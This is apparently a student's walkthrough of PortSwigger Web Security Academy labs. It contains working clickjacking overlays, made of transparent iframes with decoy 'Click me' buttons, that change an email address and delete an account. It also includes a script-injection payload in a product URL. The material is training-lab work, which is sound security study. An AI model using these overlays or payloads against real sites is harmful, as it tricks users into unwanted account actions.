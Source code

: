 
### Lab: [Clickjacking with form input data prefilled from a URL parameter](https://portswigger.net/web-security/clickjacking/lab-prefilled-form-input)



```
<style>
    iframe {
        position:relative;
        width:700px;
        height: 500px;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position:absolute;
        top:450px;
        left:80px;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="https://0a6300da03f5cd56c1068024003400fe.web-security-academy.net/my-account?email=abc@hehe.com"></iframe>
```

![](../../Img_note/Pasted%20image%2020221215184000.png)

Change  opacity to 0.001 and `Test me` to `Click me`
```
<style>
    iframe {
        position:relative;
        width:700px;
        height: 500px;
        opacity: 0.001;
        z-index: 2;
    }
    div {
        position:absolute;
        top:450px;
        left:80px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://0a6300da03f5cd56c1068024003400fe.web-security-academy.net/my-account?email=abc@hehe.com"></iframe>
```
![](../../Img_note/Pasted%20image%2020221215184509.png)



### Lab: [Multistep clickjacking](https://portswigger.net/web-security/clickjacking/lab-multistep)


	Description: This lab has some account functionality that is protected by a CSRF token and also has a confirmation dialog to protect against Clickjacking. To solve this lab construct an attack that fools the user into clicking the delete account button and the confirmation dialog by clicking on "Click me first" and "Click me next" decoy actions. You will need to use two elements for this lab.
	You can log in to the account yourself using the following credentials: `wiener:peter`


![](../../Img_note/Pasted%20image%2020221215184650.png)

![](../../Img_note/Pasted%20image%2020221215184705.png)

We need to make a multistep clickjacking
```
<style>
	iframe {
		position:relative;
		width:700px;
		height: 500px;
		opacity: 0.1;
		z-index: 2;
	}
   .firstClick, .secondClick {
		position:absolute;
		top:300px;
		left:50px;
		z-index: 1;
	}
   .secondClick {
		top:300px;
		left:200px;
	}
</style>
<div class="firstClick">Click me first</div>
<div class="secondClick">Click me next</div>
<iframe src="https://0a900027038c73a0c009bd8e00f000c7.web-security-academy.net/my-account"></iframe>
```
![](../../Img_note/Pasted%20image%2020221215185820.png)

I will fix value:
heigth: 550px, 
top of firstClick to 500px,
opacity to 0.001

```
<style>
	iframe {
		position:relative;
		width:700px;
		height: 550px;
		opacity: 0.1;
		z-index: 2;
	}
   .firstClick, .secondClick {
		position:absolute;
		top:500px;
		left:50px;
		z-index: 1;
	}
   .secondClick {
		top:300px;
		left:200px;
	}
</style>
<div class="firstClick">Click me first</div>
<div class="secondClick">Click me next</div>
<iframe src="https://0a900027038c73a0c009bd8e00f000c7.web-security-academy.net/my-account"></iframe>
```

![](../../Img_note/Pasted%20image%2020221215190436.png)





After view a product and back to home, we can see link to **Last View Product**
![](../../Img_note/Pasted%20image%2020221215193427.png)


![](../../Img_note/Pasted%20image%2020221215194532.png)
![](../../Img_note/Pasted%20image%2020221215194807.png)

So i think i will change the url at **LastViewProduct** to `"https://0a42004a04017823c0beb9800028009e.web-security-academy.net/product?productId=1&'><script>print()</script>"`


```
<iframe src="https://0a42004a04017823c0beb9800028009e.web-security-academy.net/product?productId=1&'><script>print()</script>" onload="if(!window.x)this.src='https://0a42004a04017823c0beb9800028009e.web-security-academy.net';window.x=1;">
```
![](../../Img_note/Pasted%20image%2020221215194324.png)

![](../../Img_note/Pasted%20image%2020221215200707.png)


